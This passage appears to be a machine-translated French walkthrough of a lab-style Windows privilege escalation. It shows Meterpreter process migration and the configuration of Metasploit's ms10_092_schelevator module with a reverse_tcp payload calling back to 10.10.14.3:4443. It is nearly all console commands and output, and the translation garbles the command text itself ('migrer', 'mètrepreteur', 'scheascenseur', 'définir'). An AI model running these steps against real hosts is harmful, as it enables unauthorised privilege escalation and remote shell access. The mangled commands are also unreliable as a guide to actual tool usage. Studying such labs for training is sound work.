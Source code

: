 ```
meterpreter > migrer 2796

[*] Migration de 2268 à 2796...
[*] Migration terminée avec succès.

mètrepreteur> arrière-plan

[*] Séance d'information 1...

```

#### Configuration des options du module d'escalade des privilèges

Une fois cela défini, nous pouvons maintenant configurer le module d'escalade de privilèges en spécifiant notre session Meterpreter actuelle, en définissant notre IP tun0 pour le LHOST et un port de rappel de notre choix.

Définition des options du module d'élévation des privilèges

```
exploit msf6 (windows/local/ms10_092_schelevator)> définir SESSION 1

SÉANCE => 1

exploit msf6 (windows/local/ms10_092_schelevator)> définir lhost 10.10.14.3

lhost => 10.10.14.3

exploit msf6 (windows/local/ms10_092_scheascenseur)> définir lport 4443

lport => 4443

exploit msf6 (windows/local/ms10_092_schelevator)> afficher les options

Options du module (exploit/windows/local/ms10_092_schelevator) :
    Nom Paramètre actuel requis Description
    ---- --------------- -------- -----------
    CMD pas de commande à exécuter au lieu d'une charge utile
    SESSION 1 oui La session sur laquelle exécuter ce module.
    TASKNAME non Un nom pour la tâche créée (aléatoire par défaut)
Options de charge utile (windows/meterpreter/reverse_tcp) :
    Nom Paramètre actuel requis Description
    ---- --------------- -------- -----------
    EXITFUNC process oui Technique de sortie (Accepté : '', seh, thread, process, none)
    LHOST 10.10.14.3 oui L'adresse d'écoute (une interface peut être spécifiée)
    LPORT 4443 oui Le port d'écoute
Cible d'exploitation :
    Nom d'identification
    -- ----
    0 Windows Vista, 7 et 2008

```
